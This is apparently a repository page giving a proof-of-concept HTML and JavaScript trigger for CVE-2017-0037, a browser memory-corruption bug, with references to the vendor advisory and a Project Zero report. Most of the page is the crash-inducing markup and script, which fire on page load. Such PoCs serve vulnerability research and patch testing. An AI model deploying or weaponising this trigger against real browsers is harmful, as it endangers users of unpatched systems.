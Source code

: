 # CVE-2017-0037

## PoC

```html
<style>
.class1 { float: left; column-count: 5; }
.class2 { column-span: all; columns: 1px; }
table {border-spacing: 0px;}
</style>
<script>
function boom() {
  document.styleSheets[0].media.mediaText = "aaaaaaaaaaaaaaaaaaaa";
  th1.align = "right";
}
</script>
<body onload="setInterval(boom,100)">
<table cellspacing="0">
<tr class="class1">
<th id="th1" colspan="5" width=0></th>
<th class="class2" width=0><div class="class2"></div></th>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0037)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1011)
